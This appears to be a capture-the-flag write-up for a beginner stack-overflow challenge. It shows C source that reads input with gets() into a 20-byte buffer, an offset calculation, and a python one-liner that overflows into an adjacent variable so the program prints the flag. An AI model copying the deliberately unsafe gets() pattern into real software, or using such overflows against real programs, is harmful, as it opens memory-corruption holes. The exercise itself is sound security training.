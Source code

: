 # check

nc challenges.traboda.com 8033

* Given source code : 
```
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
void initialize(){
	alarm(30);
	setvbuf(stdin,NULL,2,0);
	setvbuf(stdout,NULL,2,0);
}
void check(int a){
	if(a){
		puts("I am strong enough.");
		puts("Thanks. You can take your flag");
		system("/bin/cat flag");
		exit(0);
}
	else{
		puts("You failed to do the job");
		exit(0);
}
}
int main(){
	initialize();
	int a=0;
	char buf[20];
	puts("Hey buddy !");
	puts("Feed me something so that I can grow strong and defeat Thanos.");
	gets(buf);
	check(a);
	return 0;
}
```
* Here we may simply have to overflow a which is stored into ebp-0xc as seen in gdb into a value other than 0.
* Similar to the overflow challenge, we can simply find the minimum bytes or length of inpur string required to change value at a.
* min No. of bytes required or min length of input strings should be  = 0x20 - 0xc = 20.
* So for a string of length 20, value at ebp-0xc wont change since it takes only 20 byts input. for overflow there needs to be an extra byte so that value at ebp-0xc changes from 0x00 to 0x41 (ascii of 'A')
* Hence required input length = 21

# Python code : 
```
python -c "print('A'*21)" | ./check.chall
```
